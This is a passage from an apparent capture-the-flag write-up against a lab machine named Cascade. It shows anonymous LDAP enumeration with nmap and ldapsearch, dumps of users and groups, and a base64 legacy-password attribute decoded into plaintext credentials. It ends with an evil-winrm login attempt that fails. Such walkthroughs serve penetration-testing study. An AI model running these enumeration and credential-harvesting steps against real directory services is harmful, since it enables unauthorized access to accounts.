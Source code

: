 #### 2.1. LDAP enum

Package: `ldapsearch` from `ldap-utils`.

1) Basic enum

```
# nmap -p389,3268 -Pn -n 10.10.10.182 --script="*ldap*"
# ldapsearch -x -h 10.10.10.182 -s base namingcontexts
# ldapsearch -x -h 10.10.10.182 -b 'DC=cascade,DC=local'
# ldapsearch -x -h 10.10.10.182 -s base -b 'DC=cascade,DC=local'
# ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=cascade,DC=local'
```

2) Dumping users

```
# ldapsearch -x -H ldap://cascade.local -b 'DC=cascade,DC=local' "(objectclass=user)"
# ldapsearch -x -H ldap://cascade.local -b 'DC=cascade,DC=local' "(&(objectclass=user)(name=[username]))"
```

3) Dumping groups

```
# ldapsearch -x -H ldap://cascade.local -b 'DC=cascade,DC=local' "(objectclass=group)"
# ldapsearch -x -H ldap://cascade.local -b 'DC=cascade,DC=local' "(&(objectclass=group)(name=[groupname]))"
# ldapsearch -x -H ldap://cascade.local -b 'DC=cascade,DC=local' "(&(objectclass=group)(name=*admin*))"
```

4) Dumping computers

```
# ldapsearch -x -H ldap://cascade.local -b 'DC=cascade,DC=local' "(objectclass=computer)"
# ldapsearch -x -H ldap://cascade.local -b 'DC=cascade,DC=local' "(&(objectclass=computer)(name=[computername]))"
```


#### 2.2. Results from LDAP enum

1) `group` query (SMB shares):

```
...
description: \\Casc-DC1\Audit$
...
description: \\Casc-DC1\Data
```

2) `user` query (`cascadeLegacyPwd`):

```
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
...
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
...
sAMAccountName: r.thompson
...
cascadeLegacyPwd: clk0bjVldmE=
```

3) Obtained password for `r.thompson`

```
# echo -n 'clk0bjVldmE=' | base64 --decode
rY4n5eva
```

#### 2.3. WinRM access TCP/5985 (fails)

```
# docker run --rm -ti --name evil-winrm oscarakaelvis/evil-winrm -i 10.10.10.182 -u r.thompson -p rY4n5eva

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```
